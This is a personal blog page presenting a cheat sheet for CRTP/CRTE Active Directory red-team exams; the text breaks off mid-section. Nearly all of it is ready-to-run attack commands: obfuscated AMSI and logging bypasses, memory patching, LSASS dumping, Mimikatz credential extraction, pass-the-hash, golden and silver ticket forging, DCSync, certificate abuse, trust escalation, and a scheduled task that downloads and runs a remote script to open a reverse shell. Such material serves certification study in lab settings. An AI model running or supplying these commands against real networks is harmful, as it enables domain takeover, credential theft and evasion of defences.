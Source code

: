 ```yaml
---
title: "5 - Cheat Sheet"
classes: wide
header:  
  teaser: /assets/images/posts/crte/crte-teaser6.jpg
  overlay_image: /assets/images/main/header4.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Cheat Sheet for CRTP/CRTE exams"
description: "Cheat Sheet for CRTP/CRTE exams"
categories:
  - notes
  - crte
tags:
  - intermediate
  - AD
  - Windows 
  - cheatsheet
toc: false
---
```


# Cheat Sheet

As we know, these exams are time-based. So, I created this cheat sheet to make sure the syntax of the commands are correct and consequently I dont lose any time with BS.

> The important part is to understand the content; the cheat sheet is just an **auxiliary tool** in the process.

- There is no hashes or informations of the exams here!

> Copy Button added - tell me what u think

<style>
  /* Style for the chapter container */
  .chapters {
    margin: 10px;
    padding: 10px;
    border: 1px solid #333;
    border-radius: 15px; 
    font-family: 'Arial', sans-serif;
    background-color: #1a1a1a;
    color: #ddd;
    width: calc(100% - 40px);
  }

  /* Style for the details summary */
  details summary {
    cursor: pointer;
    font-weight: bold;
    background-color: #333;
    padding: 12px;
    border: 1px solid #222;
    border-radius: 8px; 
    margin-bottom: 10px;
  }

  /* Style for the details content */
  details .content {
    margin: 20px 0;
    padding: 20px;
    border: 1px solid #222;
    border-radius: 8px; 
    background-color: #090a08;
  }

  
</style>



<div class="chapters">
  <details>
    <summary>Bypass</summary>    
    <div class="content" markdown="1">
 

**AMSI bypass**:
```powershell
Set-Item ('Va'+'rI'+'a'+'blE:1'+'q2'+'uZx') ([TYpE]("F"+'rE')) 
(Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).(sE`T`VaLUE)(${n`ULl},${t`RuE})
```

**Script Block logging bypass**:
```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'twProvid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

**.NET AMSI bypass**:
```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ =
[ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ,
"$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

  </div>
  </details>

  <details>
    <summary>Enumeration</summary>    
    <div class="content" markdown="1">
 


**AD Module**:
Import:
```powershell
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```powershell
Get-ADUser -Filter * | Select -ExpandProperty samaccountname
Get-ADComputer –Filter * | select –expand name
Get-ADGroup -Identity 'Domain Admins' -Properties *
Get-ADGroup -Identity machineadmins -Properties Description
Get-ADGroupMember -Identity 'Domain Admins'
Get-ADGroupMember -Identity 'Enterprise Admins'
Get-ADGroupMember -Identity 'Enterprise Admins' -Server domain.local
Get-ADOrganizationalUnit -Identity 'OU=StudentsMachines,DC=us,DC=domain,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | select name
Get-ACL 'AD:\CN=Domain Admins,CN=Users,DC=us,DC=domain,DC=local' | select -ExpandProperty Access
(Get-ADForest).Domains
Get-ADTrust -Filter *
Get-ADTrust -Filter 'intraForest -ne $True' -Server (Get-ADForest).Name
(Get-ADForest).Domains | %{Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)' -Server $_}
Get-ADTrust -Filter * -Server domain.local
```

**Powerview**:
Import
```powershell
. C:\AD\Tools\PowerView.ps1
```

```powershell
(Get-DomainPolicy).KerberosPolicy
Get-DomainGPOLocalGroup
Get-DomainGroupMember -Identity <group>
Get-DomainOU
(Get-DomainOU -Identity <OU>).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name
Get-DomainGPO
(Get-DomainOU -Identity <OU>).gplink
Get-DomainGPO -Identity '{<result of .gplink>}'
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<user>"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<group>"}
Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}
Get-ForestTrust -Forest <forest>
```

  </div>
  </details>

  <details>
    <summary>Powershell Stager</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
Invoke-ServiceAbuse -Name ALG -UserName domain\studentuserx -Verbose
```

**Same attack with accesschk64 from SysInternals**:
```powershell
.\accesschk64.exe -uwcqv 'user' *

sc.exe config ALG binPath= "net localgroup administrators domain\user
/add"
sc.exe stop ALG
sc.exe start ALG
sc.exe config ALG binPath= "C:\WINDOWS\System32\alg.exe"
sc.exe stop ALG
sc.exe start ALG
```

**Look for local administrative access w/ Powerview**:
```powershell
Find-LocalAdminAccess -Verbose
Find-WMILocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess.ps1
```

**Recursively look for group membership**:
```powershell
function Get-ADPrincipalGroupMembershipRecursive ($SamAccountName) {
  $groups = @(Get-ADPrincipalGroupMembership -Identity $SamAccountName | select -ExpandProperty distinguishedname) 
  $groups
  if ($groups.count -gt 0) {
    foreach ($group in $groups) {
      Get-ADPrincipalGroupMembershipRecursive $group
    }
  }
}
```

> ACL entries

**Check if any of the groups has interesting ACL entries**:
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'managers'}
Get-DomainObjectAcl -Identity machineadmins -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match 'managers'}
```

  </div>
  </details>

  <details>
    <summary>LAPS</summary>
    <div class="content" markdown="1">

```powershell
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
C:\AD\Tools\Get-LapsPermissions.ps1
```

With Powerview:
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_}
```

**Read the password**:
```powershell
Get-ADComputer -Identity <computer> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
Get-AdmPwdPassword -ComputerName <computer>
Get-DomainObject -Identity <computer> | select -ExpandProperty ms-mcs-admpwd
```

**Access the machine with the password**:
```powershell
winrs -r:<computer> -u:.\administrator -p:<passwd> cmd
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<computer>\administrator", $passwd)
$mailmgmt = New-PSSession -ComputerName <computer> -Credential $creds
$mailmgmt
```

  </div>
  </details>

  <details>
    <summary>Extract Credentials</summary>
    <div class="content" markdown="1">
 


winrs:
```powershell
winrs net use x: \\<computer>\C$\Users\Public /user:<computer>\Administrator <password>
echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
net use x: /d
```

**Bypass behaviour detection**:
```powershell
winrs -r:<computer> -u:.\administrator -p:<password> cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.X
```

**Extract**:
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
sekurlsa::keys
```

**Microsoft signed binary to download NetLoader**:
```powershell
winrs -r:<computer> -u:.\administrator -p:<password>
"bitsadmin /transfer WindowsUpdates /priority normal http://127.0.0.1:8080/Loader.exe C:\\Users\\Public\\Loader.exe"
```

**PowerShell Remoting and Invoke-Mimi**:
```powershell
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<computer>\administrator", $passwd)
$mailmgmt = New-PSSession -ComputerName <computer> -Credential $creds
Enter-PSSession $mailmgmt
```

**Bypass AMSI before proceeding**!
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $mailmgmt
Enter-PSSession $mailmgmt
Invoke-Mimi -Command '"sekurlsa::keys"'
```

  </div>
  </details>

  <details>
    <summary>gMSA</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Get-ADServiceAccount -Filter *
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

> You have to open a shell with the user that has permission to read gMSA, after that

```powershell
Import AD Module again, then:
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
To decode the password we can use DSinternals:
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash –Password $decodedpwd.SecureCurrentPassword
```

> After that, you can PTH to see if the user has access to another machine!

  </div>
  </details>

  <details>
    <summary>PTH</summary>
    <div class="content" markdown="1">

**From an elevated shell**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:<user> /domain:<domain> /aes256:<password> /run:cmd.exe" "exit"
```

**using NTLM**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:<user> /domain:<domain>  /ntlm:<password> /run:cmd.exe" "exit"

C:\AD\Tools\Rubeus.exe s4u /user:<user> /aes256:<password> /impersonateuser:administrator /msdsspn:CIFS/<machine.domain> /altservice:HTTP /domain:<domain> /ptt
```

**Doesn't need elevation**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /domain:<domain> /user:<user> /aes256:<password> opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

  </div>
  </details>

  <details>
    <summary>Application Whitelisting</summary>
    <div class="content" markdown="1">

> CLM, AppLocker, WDAC

**Verify if PowerShell is running in Constrained Language Mode**:
```powershell
$ExecutionContext.SessionState.LanguageMode
```

**Check for AppLocker** (if there is an error, the AppLocker is not in use):
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
Get-AppLockerPolicy –Effective
```

**Verify WDAC**:
```powershell
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
CodeIntegrityPolicyEnforcementStatus : 2
UsermodeCodeIntegrityPolicyEnforcementStatus : 2
```

Check out [Lolbas Project on Github](https://lolbas-project.github.io/)

> Lets DUMP lsass*

**Get the PID of lsass.exe process**:
```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 708 C:\Users\Public\lsass.dmp full
```

**Copy the `lsass` to your machine**:
```powershell
echo F | xcopy \\us-jump\C$\Users\Public\lsass.dmp C:\AD\Tools\lsass.dmp
```

**Run Mimikatz with Admin Priv, then**:
```powershell
sekurlsa::minidump C:\AD\Tools\lsass.DMP
privilege::debug
sekurlsa::keys
```

**Check for Certificates**:
```powershell
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\us-jump\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\us-jump\C$\Users\Public\InShellProf.dll /Y
```

```powershell
winrs -r:us-jump cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
ls cert:\LocalMachine\My
ls cert:\LocalMachine\My\BAD78F43BB4CB13C4843E49B51AA051530FFBBDB | Export-PfxCertificate -FilePath C:\Users\Public\user.pfx -Password (ConvertTo-SecureString -String 'SecretPass@123' -Force -AsPlainText)
```

**Copy the certificate**:
```
echo F | xcopy \\us-jump\C$\Users\Public\user.pfx C:\AD\Tools\user.pfx
```

  
  </div>
  </details>
  
  <details>
    <summary>Unconstrained delegation</summary>
    <div class="content" markdown="1">
 


```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

**Access the machine with unconstrained deleg, then**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
cd C:\AD\Tools\
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

**Copy Rubeus using xcopy and execute using winrs**:
```powershell
echo F | xcopy C:\AD\Tools\Rubeus.exe \\us-web\C$\Users\Public\Rubeus.exe /Y
winrs -r:us-web cmd.exe
C:\Users\Public\Rubeus.exe monitor /targetuser:DC$ /interval:5 /nowrap
```

**Copy and execute Rubeus using PowerShell Remoting**:
```powershell
$usweb1 = New-PSSession us-web
Copy-Item -ToSession $usweb1 -Path C:\AD\Tools\Rubeus.exe -Destination C:\Users\Public
Enter-PSSession $usweb1
cd C:\Users\Public .\Rubeus.exe monitor /targetuser:DC$ /interval:5 /nowrap
```

**Abuse the printer bug**:
```powershell
C:\AD\Tools\MS-RPRN.exe \\dc.domain.local \\us-web.domain.local
```

**Copy the Base64EncodedTicket, then**:
```powershell
C:\AD\Tools\Rubeus.exe ptt /ticket:TGTofDC$
```

**Run DCSync attack**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\krbtgt --Domain domain.local --DomainController dc.domain.local
```

**To get EA access**

it's the same:

1. Monitor the DC of the root of the forest
2. Execute MS-RPRN with the DC target
3. Copy the Base64 and PTT
4. DCSync EA (Administrator of the root forest)

```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\administrator --Domain domain.local --DomainController domain-dc.domain.local
```

**In a different forest**

> If TGT Delegation is enabled across forests trusts, we can abuse the printer bug across two-way forest trusts as well.

1. ASKTGT
2. Send Rubeus to the target machine
3. Access the machine with WINRS
4. Execute Rubeus monitor (with the Target Forest)
5. Execute MS-RPRN (with the Target Forest)
6. Copy base64 & PTT with Rubeus

**Now we can run DCSync to the Targeted Forest**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User usvendor\krbtgt --Domain usvendor.local --DomainController usvendor-dc.usvendor.local
```

  </div>
  </details>

  <details>
    <summary>Constrained delegation</summary>
    <div class="content" markdown="1">
 


```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

**Collect the service from msDS-AllowedToDelegateTo and access with Rubeus S4U**:
```powershell
klist
winrs -r:us-mssql.domain.local cmd.exe
```

**To execute on another Forest just add the flag -Server**:
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server domain.local
```

**We need access to the machine that has Constrained Deleg enabled**:
```powershell
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:<user> /domain:domain.local
C:\AD\Tools\Rubeus.exe s4u /user:<user> /rc4:<hash> /impersonateuser:Administrator /domain:domain.local /msdsspn:nmagent/dc.domain.local /altservice:ldap /dc:dc.domain.local /ptt
```

**With the LDAP service ticket, We can DCSync**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\krbtgt --Domain domain.local --DomainController dc.domain.local
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\administrator --Domain domain.local --DomainController dc.domain.local
```


  </div>
  </details>

  <details>
    <summary>ACLs Write Permissions</summary>
    <div class="content" markdown="1">

**If you have Write permission**:
```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\us-mgmt\C$\Users\Public\Loader.exe /Y
winrs -r:us-mgmt cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
sekurlsa::keys
```

**If you get any user, run the full enumeration on that user**:
```powershell
C:\AD\Tools\PowerView.ps1
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'mgmtadmin'}
```

**With GenericWrite we can set Resource-based Constrained Delegation (RBCD)**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
$comps = 'user1$','user2$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps -Verbose
```

**Extract AES of your machine**:
```powershell
C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::keys" "exit"
```

**Go for the one with SID S-1-5-18 that is a well-known SID for the SYSTEM user**:
```powershell
C:\AD\Tools\Rubeus.exe s4u /user:machine$ /aes256:$password /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
klist
winrs -r:us-helpdesk cmd
```

**To copy our loader to the machine, we need to access the filesystem. So, request a TGS for CIFS using Rubeus**:
```powershell
C:\AD\Tools\Rubeus.exe s4u /user:machine$ /aes256:$password /msdsspn:cifs/us-helpdesk /impersonateuser:administrator /ptt
echo F | xcopy C:\AD\Tools\Loader.exe \\us-helpdesk\C$\Users\Public\Loader.exe /Y
winrs -r:us-helpdesk cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```

> If any new users are found, *PTH and Find-PSRemotingLocalAdminAccess -Verbose*



  </div>
  </details>

  <details>
    <summary>Tickets</summary>
    <div class="content" markdown="1">
 


**GOLDEN**

**Without using Invoke-Mimi.ps1**:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
klist
echo F | xcopy C:\AD\Tools\Loader.exe \\dc\C$\Users\Public\Loader.exe /Y
winrs -r:dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```

**Using Invoke-Mimi.ps1 and PowerShell Remoting**:
```powershell
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
$sess = New-PSSession <machine name>
Enter-PSSession -Session $sess

# bypass AMSI 

exit
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
Enter-PSSession -Session $sess
Invoke-Mimi -Command '"lsadump::lsa /patch"'
```

**SILVER**

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target> /service:HOST /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
klist
```

**Start a listening in another prompt**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\powercat.ps1
powercat -l -v -p 443 -t 1000
schtasks /create /S <target machine> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Userx" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.x/Invoke-PowerShellTcpEx.ps1''')'"
schtasks /Run /S <target machine> /TN "Userx"
```

We should get a shell on the listener prompt. 

> For *WMI*, we need 2 tickets – *HOST and RPCSS*

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target dc> /service:HOST /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target dc> /service:RPCSS /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
Get-WmiObject -Class win32_operatingsystem -ComputerName <computer name>
```

  </div>
  </details>

  <details>
    <summary>DCSync</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
```

**Check if the user has Replication Rights**:
```powershell
Get-DomainObjectAcl -SearchBase "dc=us,dc=domain,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuserx"}
```

**With DA privileges We can add those rights**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:administrator /domain:domain.local /aes256:<hash> /run:cmd.exe" "exit"
```

**Using Powerview**:
```powershell
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=domain,dc=local" -PrincipalIdentity studentuserx -Rights DCSync -PrincipalDomain domain.local -TargetDomain domain.local -Verbose
```

**Using AD Module with Set-ADACL from RACE**:
```powershell
Set-ADACL -DistinguishedName 'DC=us,DC=domain,DC=local' -SamAccountName studentuserx -GUIDRight DCSync -Verbose
```

> From a normal shell, check the rights again

**Now we can execute DCSync attacks**:
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
Invoke-Mimi -Command '"lsadump::dcsync /user:domain\krbtgt"'
```

  </div>
  </details>

  <details>
    <summary>AD CS</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\Certify.exe cas
C:\AD\Tools\Certify.exe find
```

**ENROLLEE_SUPPLIES_SUBJECT attribute means we can request a certificate for ANY user**:
```powershell
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
C:\AD\Tools\Rubeus.exe asktgt /user:<user> /certificate:C:\AD\Tools\user.pfx /password:SecretPass@123 /nowrap /ptt
C:\AD\Tools\Certify.exe request /ca:domain-DC.domain.local\DOMAIN-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```

> *Copy all the text between -----BEGIN RSA PRIVATE KEY----- and -----END CERTIFICATE----- and save it to cert.pem*


C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx

**Finally, request a TGT for the DA**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:SecretPass@123 /nowrap /ptt
winrs -r:dc whoami
```

**For EA**

**Request and convert to PFX, then request the TGT**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:domain.local\Administrator /dc:domain-dc.domain.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
winrs -r:domain-dc whoami
```

   </div>
  </details>

  <details>
    <summary>Azure AD Connect</summary>
    <div class="content" markdown="1">

```powershell
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server domain.local -Properties * | select SamAccountName,Description | fl
C:\AD\Tools\Rubeus.exe asktgt /domain:domain.local /user:<user> /aes256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\us-adconnect\C$\Users\<user>\Downloads\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\us-adconnect\C$\Users\<user>\Downloads\RunWithRegistryNonAdmin.bat /Y
winrs -r:us-adconnect cmd
cd C:\Users\<user>\Downloads
RunWithRegistryNonAdmin.bat
```

**Extract credentials of MSOL_**:
```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.100.x/adconnect.ps1')
ADconnect
```

**Now we can run DCsync (From elevated shell)**:
```powershell
runas /user:domain.local\MSOL_16fb75d0227d /netonly cmd
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\administrator /domain:domain.local" "exit"
```

**DCsync (from a normal shell)**:
```powershell
runas /user:domain.local\MSOL_16fb75d0227d /netonly cmd
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"lsadump::dcsync /user:domain\administrator /domain:domain.local"'
```


   </div>
  </details>

  <details>
    <summary>Domain Privesc (TrustKey & KRBTGT)</summary>
    <div class="content" markdown="1">
 


**Using TRUSTKEY**

**With DA - Escalate to EA or DA of the parent domain**:

```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:administrator /aes256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\Loader.exe \\dc\C$\Users\Public\Loader.exe /Y
winrs -r:dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
lsadump::trust /patch
```

> Grab the RC4 of [ In ] child domain -> parent domain**
   
**Create the inter-realm TGT using the trust key**:   
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /domain:domain.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:<hash> /user:Administrator /service:krbtgt /target:domain.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```

``` powershell
C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/domain-dc.domain.local /dc:domain-dc.domain.local /ptt
```

``` powershell
klist
```

``` powershell
dir \\domain-dc.domain.local\c$
```
 

**Using KRBTGT Hash**

**Create inter-realm TGT with SID history for Enterprise Admins**:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:<hash> /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /ptt" "exit"
klist
winrs -r:domain-dc cmd
```


   </div>
  </details>

  <details>
    <summary>Abuse Trust Relationship (Forest)</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /ptt"
lsadump::dcsync /user:domain\user$ /domain:domain.local
```

**Copy SafetyKatz and Rubeus**:
```powershell
echo F | xcopy C:\AD\Tools\BetterSafetyKatz.exe \\dc.domain.local\C$\Users\Public\BetterSafetyKatz.exe /Y
echo F | xcopy C:\AD\Tools\Rubeus.exe \\dc.domain.local\C$\Users\Public\Rubeus.exe /Y
```

**Forge an inter-realm TGT**:
```powershell
winrs -r:dc.domain.local cmd
